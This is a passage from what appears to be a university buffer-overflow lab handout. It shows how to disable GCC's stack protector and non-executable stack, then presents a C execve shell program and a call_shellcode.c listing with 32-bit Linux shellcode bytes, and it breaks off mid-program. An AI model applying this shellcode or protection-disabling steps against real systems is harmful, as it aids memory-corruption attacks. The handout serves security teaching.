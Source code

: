 (2) The StackGuard Protection Scheme.
The GCC compiler implements a security mechanism called "Stack Guard" to prevent buffer overflows. In the presence of this protection, buffer overflow will not work. You can disable this protection if you compile the program using the `-fno-stack-protector` switch. For example, to compile a program example.c with Stack Guard disabled, you may use the following command:
```sh
gcc -fno-stack-protector example.c
```

(3) Non-Executable Stack.
Ubuntu used to allow executable stacks, but this has now changed: the binary images of programs (and shared libraries) must declare whether they require executable stacks or not, i.e., they need to mark a field in the program header. Kernel or dynamic linker uses this marking to decide whether to make the stack of this running program executable or non-executable. This marking is done automatically by the recent versions of gcc, and by default, the stack is set to be non-executable. To change that, use the following option when compiling programs:
```sh
gcc -z execstack -o test test.c

gcc -z noexecstack -o test test.c
```

### Shellcode
Before you start the attack, you need a shellcode. A shellcode is the code to launch a shell. It has to be loaded into the memory so that we can force the vulnerable program to jump to it. Consider the following program:
```c
#include<stdio.h>

int main()
{
    char *name[2];

    name[0] = '/bin/sh';
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```
The shellcode that we use is just the assembly version of the above program. The following program shows you how to launch a shell by executing a shellcode stored in a buffer. Please compile and run the following code, and see whether a shell is invoked.
```c
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f            */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx              */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx              */
  "\x99"                 /* cdq                            */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
```